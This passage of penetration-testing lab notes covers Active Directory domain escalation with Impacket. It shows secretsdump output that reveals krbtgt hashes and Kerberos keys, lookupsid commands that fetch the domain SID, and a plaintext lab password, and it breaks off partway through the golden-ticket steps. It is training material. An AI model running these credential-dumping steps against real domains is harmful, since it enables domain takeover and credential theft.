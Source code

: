 For this we need:
- The user (`htb-student_adm`) must have the necessary privileges to query the domain controller. We need their creds.
- We require to know $targetedDomain and NetbiosNameofDomain.
- The **Impacket** library must be installed, and the tool should be executed in an environment with Python support.
- Network connectivity to the target IP (in this example `172.16.5.240`) is required.

Results:

```
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
krbtgt:aes128-cts-hmac-sha1-96:ca289e175c372cebd18083983f88c03e
krbtgt:des-cbc-md5:fee04c3d026d7538

```

#### Step 2: getting the SID for the child domain

Next, we can use [lookupsid.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py) , an Impacket script used for querying a Windows system to obtain information about the SID associated with a given user or group. 

The tool will give us back the SID for the domain and the RIDs for each user and group that could be used to create their SID in the format `DOMAIN_SID-RID`.

```shell-session
lookupsid.py $targetedDomain/$UserWithAdminPriv@TargetedIP 
# Example:
# lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 
# Enter password: HTB_@cademy_stdnt_admin!
```

If we just want to get the Domain SID, we can filter it out:

```shell-session
lookupsid.py $targetedDomain/$UserWithAdminPriv@TargetedIP | grep "Domain SID"
# Example:
# lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"
# Enter password: HTB_@cademy_stdnt_admin!
```

Results:  S-1-5-21-2806153819-209893948-922872689
 
#### Step 3: getting the name of a target user in the child domain (does not need to exist!)

For instance, `hacker`.

#### Step 4: getting the FQDN of the child domain.
